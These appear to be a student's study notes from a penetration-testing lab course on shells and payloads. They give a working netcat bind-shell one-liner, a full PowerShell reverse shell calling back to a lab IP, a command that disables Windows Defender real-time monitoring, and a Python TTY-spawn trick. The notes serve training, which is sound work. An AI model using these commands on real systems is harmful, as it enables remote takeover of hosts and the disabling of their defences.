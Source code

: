 
- Direct access to the **underlying os** and **commands** and **file system**

- Persistence on a system
#### Payloads deliver shells

- Networking
	>Encapsulated data portion of a packet
- Basic omputing
	 >portion of an instruction that defines the action taken
- Programming
	> data referenced or carried by he language
- Exploitation & security
	>Payload is code crafted with intent to exploit
	

### Basic bind shell with NC

#### No. 1: Server - Binding a Bash shell to the TCP session

```BASH
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

#### Q1 : 443
#### q2 : 

ssh to target
[[Why get shells#Basic bind shell with NC]]

### Reverse shell

on client (target)

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

-> Windows defnededf blocks this exectuion so we neeed to disable it for test purposes
#### Disable AV

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Automating Payloads & Delivery with Metasploit


### Staged vs. Stageless Payloads

#### Staged
>dont send the whole payload immediatley, sets a stage and then calls back to download the rest of the payload

#### Stageless
>sent in entirety across the network, better for low bandwith enviroments

## Executing a Stageless Payload


# using shells

Use `CMD` when:

- You are on an older host that may not include PowerShell.
- When you only require simple interactions/access to the host.
- When you plan to use simple batch files, net commands, or MS-DOS native tools.
- When you believe that execution policies may affect your ability to run scripts or other actions on the host.

Use `PowerShell` when:

- You are planning to utilize cmdlets or other custom-built scripts.
- When you wish to interact with .NET objects instead of text output.
- When being stealthy is of lesser concern.
- If you are planning to interact with cloud-based services and hosts.
- If your scripts set and use Aliases.

## Spawning a TTY Shell with Python

```
which python
```

#### interactive python shell

```shell
python -c 'import pty; pty.spawn("/bin/sh")' 
```